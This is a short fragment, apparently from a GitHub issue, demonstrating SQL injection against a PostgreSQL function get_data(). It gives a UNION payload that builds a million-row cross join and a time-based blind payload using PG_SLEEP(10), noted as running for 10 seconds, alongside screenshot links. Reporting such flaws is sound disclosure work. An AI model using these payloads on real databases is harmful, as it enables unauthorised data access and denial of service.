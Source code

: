 select * from get_data('1'' 
union 
(select a1, cast(a1 as varchar), cast(a1 as integer) 
from 
(select generate_series a1 from generate_series (1,1000)) t1 
cross join 
(select * from generate_series (1,1000) t2) t3) -- ');

![image](https://user-images.githubusercontent.com/41470575/209439724-cdbcb889-c0ad-451a-9f5a-36654e85b0ba.png)

select * from get_data('1'' OR EXISTS (SELECT 1 FROM PG_SLEEP(10)) -- ');

*was executing 10 seconds*

![image](https://user-images.githubusercontent.com/41470575/209441099-a98845c3-3c52-448e-ac2d-ff5f8ee8c986.png)
